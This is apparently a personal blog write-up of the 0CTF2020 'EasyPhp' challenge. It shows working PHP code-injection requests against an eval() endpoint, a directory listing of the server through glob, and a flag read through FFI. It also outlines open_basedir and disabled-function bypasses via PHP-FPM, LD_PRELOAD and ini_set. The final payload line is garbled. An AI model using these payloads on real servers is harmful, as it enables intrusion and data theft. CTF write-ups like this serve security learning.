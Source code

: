 ```yaml
---
layout: post
author: pwnk1dd13
---
```


* * *

Recently, I got opportunity to participate in **0CTF2020 Quals**. It was really a good CTF focused on Intermediate to Advanced participants. I was only able to solve only one PHP challenge during CTF named `EasyPhp`.

## Recon >
First things first, Always Recon the chall. So, on visiting the Provided URL [http://pwnable.org:19260/](http://pwnable.org:19260/) for the challenge, We get this piece of php code

```php
<?php
    if (isset($_GET['rh'])) {
        eval($_GET['rh']);
    } else {
        show_source(__FILE__);
    }
?>
```

Now, On looking at the source code, It immediately clicked that there is some sort of Code Injection using parameter `rh`. On trying commands like ``` system, exec, popen```, We didn't get anything executed.So, we must have to get our hands on the internals.

Now, we check the settings of back-end php application, For that we have to take a look at `phpinfo();`. On Using phpinfo(); as param in var rh,
[http://pwnable.org:19260/rh=phpinfo();](https://pwnk1dd13.github.io/assets/CTF/php-0ctf2020.html)

We get to know that dangerous functions that we tried to use before were disabled, Have a look at `disabled_functions` 
```
set_time_limit,ini_set,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,system,exec,shell_exec,popen,proc_open,passthru,symlink,link,syslog,imap_open,ld,mail,putenv,error_log,d
```
Hmm! So, We need to find some other ways. Doing a bit of research and reading writeups , we get know a lot about php exploits. Let's discuss various strategies we thought to exploit it.

## Strategy >

Following exploits came up : 

> PHP-FPM
>
> Bypass open_basedir()
>
> FFI
>
> glob + DirectoryIterator  : ~~This is not the exploit~~

Now, I'll explain a bit of above and unintended solutions that came during CTF in the later section `Conclusion`, Let's first discuss how I solved this challenge.

## Exploit >

We first use `glob + DirectoryIterator` to literally scan the whole server, After doing this, we found interesting things in `/` Directory with this `POST`request:
```
POST /?rh=%40%65%76%61%6c%28%24%5f%50%4f%53%54%5b%67%6d%6c%5d%29%3b HTTP/1.1
Host: pwnable.org:19260
User-Agent: User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US;q=0.5,en;q=0.3
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 91

gml=$a=new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString().' ');};
```

```
bin dev etc flag.h flag.so home lib media mnt opt proc root run sbin srv start.sh sys tmp usr var
```
Cool!. So ,we find our targets `flag.h` and `flag,so`. `flag.so` is Dynamically Linked Shared Object and is most probably used by `flag.h` . So, we need to figure out the function called by `flag.h` .Now, to exploit further I used the evil functionality ``FFI`` which was enabled on server as per phpinfo(). For more information about this, visit Official [Php Docs](https://www.php.net/manual/en/class.ffi.php).

Now, We use `FFI` to call the method in `flag.so`.So, use `FFI` to load `flag.h`. Let's try with this `POST` request:
```
POST /?rh=%40%65%76%61%6c%28%24%5f%50%4f%53%54%5b%67%6d%6c%5d%29%3b HTTP/1.1
Host: pwnable.org:19260
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 39

gml=$ffi = FFI::load("/flag.h");echo 1;
```
We don't get a 500, indicates that loading through `FFI` works and it's successfully loaded. But we don't know what method there is, what the method name is, and can't read flag.h, this is the point where I got stuck. 

But reading more about FFI exploits, reveal that we can leak memory to know the method name and then call it to get the `flag`. I really not noted down, from where I got the script to leak method, Shame on me. But this guy also published writeup for this same challenge and described the process of leaking memory. He has also published writeups for other challenges. So, do checkout. Link to the [Writeup](https://www.4hou.com/posts/p7BQ).Now ,we have the method to be called `flag_fUn3t1on_fFi();`.

Now,just post this request to get the flag :
```
gml=$ffi = FFI : : load( " / flag. h" ) ; : : string($ffi->f1ag_fUn3t10n_fF1()));

```
We get our flag as response :
```
HTTP/I.1 200 0K
Server: nginx
Date: Mon, 29 Jun 2020 11:01 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
X-Powered-By: PHP/7.4.5
Content-Length: 42

string(27) "flag{FFi_1s_qu1T3_DANg10uS}"
```
Hurray! We got the flag `flag{FFi_1s_qu1T3_DANg10uS}`

## Conclusion >

The intended solutions of this challenge were :

> PHP-FPM
>
> FFI

We done this through FFI, but we can also do this through `php-Fastcgi/php-fpm`. You can read more about `PHP-FPM` [here](https://www.php.net/manual/en/install.fpm.php). The way to exploit via `fast-cgi` is to first find the sock file to connect .i.e `/var/run/php-fpm.sock` using `glob+DirectoryIterator`
. Now, You can forge `fastcgi` to bypass some security policies like `open_basedir` by using `PHP_VALUE` to change global php settings like `open_basedir`. In our case, primary target is to `open-basedir` so that we can read files in root folder. For Script and more info, [Visit](https://github.com/balsn/ctf_writeup/tree/master/20190323-0ctf_tctf2019quals#wallbreaker-easy). I have added file containing all the recon data [here](https://pwnk1dd13.github.io/assets/CTF/easyphp-0ctf2020.txt).

> Unintended solutions :
As the organizers had setup this challenge in a shared php environment. So, if someone modifies `open_basedir` restriction from `/var/www/html` to `/`. Then, It gets modified for all participants and hence, anybody can directly use `file_get_contents` to get `flag.so` where the flag is in plain-text.

## Learning >
Other Exploits :
 > `LD_PRELOAD` if `putenv` is not disabled, can be used to exploit the server.
 

 > `ini_set` if not disabled, can be used to change `open_basedir` and read contents from any directory, here, root `/` directory.

 >`ImageMagick` ,a php image library if used and enabled, can also be used to bypass `open_basedir` restriction.

## Feedback >

Thanks for reading and visiting my blog. Please don't mind by bad English or grammatical errors. Please do comments if You find it interesting or something went wrong!. I read all the comments.
Thanks Again! Have a good Day!


* * * 
